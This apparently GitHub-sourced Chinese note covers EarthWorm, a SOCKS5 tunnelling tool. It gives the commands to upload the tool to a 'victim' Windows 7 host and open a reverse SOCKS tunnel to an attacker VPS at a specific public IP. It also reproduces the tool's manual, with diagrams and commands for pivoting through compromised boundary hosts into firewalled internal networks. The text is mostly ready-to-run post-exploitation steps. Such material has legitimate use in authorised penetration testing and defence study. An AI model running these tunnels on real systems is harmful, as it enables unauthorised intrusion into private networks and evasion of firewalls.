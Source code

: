 ```bash
# 内网穿透
./ew_for_linux64 -s rcsocks -l 9995 -e 1234 # 公网vps上面开启Earthworm监听
```

该命令的意思是添加一个转接隧道，监听1234，把本地1234端口收到的代理请求转交给1080端口，这里1234端口只是用于传输流量。

上传ew_for_Win.exe到win7受害主机，并在win7上面启动socks5服务器并反弹到vps上面

```bash
ew_for_Win.exe -s rssocks -d 182.92.161.222 -e 1234
./ew_for_linux64 -s rssocks -d 182.92.161.222 -e 1234
```

配置 `/etc/proxychains4.conf`

```bash
socks5 182.92.161.222 1080
```





【软件介绍】

    EarthWorm是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通讯，用于复杂网络环境下的数据转发。
    专有主页： http://rootkiter.com/EarthWorm/

【使用场景】

    普通网络环境：
        1.  目标网络边界存在公网IP且可任意开监听端口：
    
                  +---------+     +-------------------+  
                  |HackTools| ->> | 8888->  1.1.1.1   |
                  +---------+     +-------------------+
    
                a)./ew -s ssocksd -l 8888
                        // 在 1.1.1.1 主机上通过这个命令开启 8888 端口的 socks 代理
                b) HackTools 可通过访问 1.1.1.1:8888 端口使用 1.1.1.1 主机提供的代理
                    
        2.  目标网络边界不存在公网 IP，需要通过反弹方式创建 socks 代理
            
                                        一台可控公网IP主机                  可控内网主机
                  +---------+     +--------------------------+    |     +---------------+
                  |HackTools| ->> | 1080 ->  1.1.1.1 -> 8888 |  防火墙  | <--  2.2.2.2  |
                  +---------+     +--------------------------+    |     +---------------+
    
                a) ./ew -s rcsocks -l 1080 -e 8888
                            // 在 1.1.1.1 的公网主机添加转接隧道，将 1080 收到的代理请求转交给反连 8888 端口的主机
                b) ./ew -s rssocks -d 1.1.1.1 -e 8888          
                            // 将目标网络的可控边界主机反向连接公网主机
    
                c) HackTools 可通过访问 1.1.1.1:1080 端口使用 rssocks 主机提供的 socks5 代理服务
    
    对于二重网络环境：        
        1.  获得目标网络内两台主机 A、B 的权限，情况描述如下：
    
                A 主机：  存在公网 IP，且自由监听任意端口，无法访问特定资源
                B 主机：  目标网络内部主机，可访问特定资源，但无法访问公网
                A 主机可直连 B 主机
                
                                        可控边界主机A             可访问指定资源的主机B
                  +---------+     +-----------------------+      +-----------------+
                  |HackTools| ->> | 1080 -->  2.2.2.2 --> | ->>  | 9999 -> 2.2.2.3 |
                  +---------+     +-----------------------+      +-----------------+
    
                a)  ./ew -s ssocksd -l 9999
                        // 在 2.2.2.3 主机上利用 ssocksd 方式启动 9999 端口的 socks 代理
                b)  ./ew -s lcx_tran -l 1080 -f 2.2.2.3 -g 9999 
                        // 将 1080 端口收到的 socks 代理请求转交给 2.2.2.3 的主机。
                c)  HackTools 可通过访问 2.2.2.2:1080 来使用 2.2.2.3 主机提供的 socks5 代理。
                
        2.  获得目标网络内两台主机 A、B 的权限，情况描述如下：
    
                A 主机：  目标网络的边界主机，无公网 IP，无法访问特定资源。
                B 主机：  目标网络内部主机，可访问特定资源，却无法回连公网。
    
                A 主机可直连 B 主机
                                      一台可控公网IP主机                    可控内网主机A         可访问指定资源的主机B
                  +---------+     +--------------------------+    |    +-----------------+      +-----------------+
                  |HackTools| ->> | 1080 ->  1.1.1.1 -> 8888 |  防火墙  | <--  2.2.2.2 --> | ->> | 9999 -> 2.2.2.3 |
                  +---------+     +--------------------------+    |    +-----------------+      +-----------------+
    
                a)  ./ew -s lcx_listen -l 1080 -e 8888
                            // 在 1.1.1.1 公网主机添加转接隧道，将 1080 收到的代理请求
                            // 转交给反连 8888 端口的主机
                b)  ./ew -s ssocksd -l 9999
                            // 在 2.2.2.3 主机上利用 ssocksd 方式启动 9999 端口的 socks 代理
                c)  ./ew -s lcx_slave -d 1.1.1.1 -e 8888 -f 2.2.2.3 -g 9999
                            // 在 2.2.2.2 上，通过工具的 lcx_slave 方式，打通1.1.1.1:8888 和 2.2.2.3:9999 之间的通讯隧道
                d)  HackTools 可通过访问 1.1.1.1:1080 来使用 2.2.2.3 主机提供的 socks5 代理


【参数说明】

    目前工具提供六种链路状态，可通过 -s 参数进行选定，分别为:
    
        ssocksd   rcsocks   rssocks   
        lcx_slave lcx_tran  lcx_listen
    
        其中 SOCKS5 服务的核心逻辑支持由 ssocksd 和 rssocks 提供，分别对应正向与反向socks代理。
    
        其余的 lcx 链路状态用于打通测试主机同 socks 服务器之间的通路。
    
    lcx 类别管道：
    
        lcx_slave  该管道一侧通过反弹方式连接代理请求方，另一侧连接代理提供主机。
        lcx_tran   该管道，通过监听本地端口接收代理请求，并转交给代理提供主机。
        lcx_listen 该管道，通过监听本地端口接收数据，并将其转交给目标网络回连的代理提供主机。
    
        通过组合lcx类别管道的特性，可以实现多层内网环境下的渗透测试。
    
        下面是一个三级跳的本地测试例子。。。
        ./ew -s rcsocks -l 1080 -e 8888
        ./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
        ./ew -s lcx_listen -l 9999 -e 7777
        ./ew -s rssocks -d 127.0.0.1 -e 7777
    
        数据流向为   IE -> 1080 -> 8888 -> 9999 -> 7777 -> rssocks 
